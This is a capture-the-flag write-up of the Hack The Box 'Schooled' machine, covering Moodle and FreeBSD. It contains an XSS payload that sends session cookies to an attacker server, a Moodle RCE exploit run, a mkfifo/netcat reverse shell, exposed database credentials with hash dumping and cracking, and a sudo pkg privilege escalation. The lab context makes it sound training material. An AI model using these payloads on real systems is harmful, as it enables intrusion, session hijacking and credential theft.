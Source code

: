 ```yaml
---
title: "📦 HTB - Schooled"
date: 2021-08-04 13:00:00
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


> Cool box, not too CTF-like and real-life applicable, my first FreeBSD :smile: But root part was too quick.

## TL;DR

XSS to steal Moodle creds of teacher, privesc as manager and then RCE. Get MySQL in config file, dump users and get password hash. Break the hash with john to ssh as user. Common `pkg install` exploit for root.

## Footholds

```
# Nmap 7.91 scan initiated Mon Aug  2 22:40:05 2021 as: nmap -A -p- -T4 -o nmap.out schooled.htb
Nmap scan report for schooled.htb (10.10.10.234)
Host is up (0.082s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
...
```

The website we have seems to be static, no JavaScript to exploit, not so much to do :thinking:

After a while I read that they are talking about a Moodle on this site. So I decided to find it, `moodle.schooled.htb`!

## Entrypoint

### XSS you say?

Found the version by visiting some forbidden page for my user: Moodle 3.9.

![userpix](userpix.png)

We got those email domains: `student.schooled.htb` & `staff.schooled.htb`.

Looking for exploits for this version, I found an XSS payload for `MoodleNet` in user profile. By chance, a teacher (maths class) is looking for enroled students' MoodleNet profiles.

MoodleNet: `<script>new Image().src="http://your-ip:port/" + document.cookie</script>`
`python3 -m http.server port`

See [here for more details about the XSS](https://github.com/HoangKien1020/CVE-2020-25627).

By starting an HTTP server on our machine, we get the teacher's session cookie.

![Teacher session cookie](teacher_session.png)

![Logged as teacher](teacher_log.png)

### Get manager access

After some research on this Moodle version, I found a good exploit to use: [https://github.com/lanzt/CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).

No need to fix this exploit, even if this is not the original exploit script for this CVE, I used it because it was the first to show in the search engine.

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "whoami" --cookie TEACHER_COOKIE
[...]
www
```

As this box was FreeBSD, `nc` does not work the same, we need a bigger payload for a reverse shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`

So my command to get a reverse shell:

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" --cookie TEACHER_COOKIE
```

On another terminal:

```sh
nc -nlvp PORT
$ whoami
www
$
```

We have now a reverse shell! Let's get user.

## User

List user directories:

```
$ ls /home
/home/steve
/home/jamie
```

By looking in the moodle's directory we get this config file:

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

We have now MySQL creds, let's use them:

```sh
/usr/local/bin/mysql -umoodle -p
Password:


```

Weird... We should get a shell here.

In fact the exploit we use is not meant to nest child shells. For example we can't just `bash` to get a bash shell, we must stay in our shell.

Fortunaletly we can execute commands using MySQL's binary:

```sh
/usr/local/bin/mysql -umoodle -pPlaybookMaster2020 -D moodle -e "show tables;"
```

![MySQL tables](mysql_exec.png)

We dump the users:

```sql
select * from mdl_user;
```

The interesting line here is:

```
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW          Jamie   Borham  jamie@staff.schooled.htb
```

We need to crack this hash. Let's use john:

![Jamie password](jamie.png)

We can SSH with this.

## Root

Classic:

```
sudo -l

(NOPASSWD) /usr/sbin/pkg update
(NOPASSWD) /usr/sbin/pkg install *
```

Using this [https://gtfobins.github.io/gtfobins/pkg/](https://gtfobins.github.io/gtfobins/pkg/) we build our package to RCE as root:

```sh
# local
echo 'cat /root/root.txt' > a.sh
fpm -n x -s dir -t freebsd -a all --before-install a.sh .
scp x-1.0.txz jamie@schooled.htb:/tmp
```

```sh
# ssh
sudo /usr/sbin/pkg install -y --no-repo-update /tmp/x-1.0.txz
...
/root/root.txt hash here
```

![Rooted.png](rooted.png)
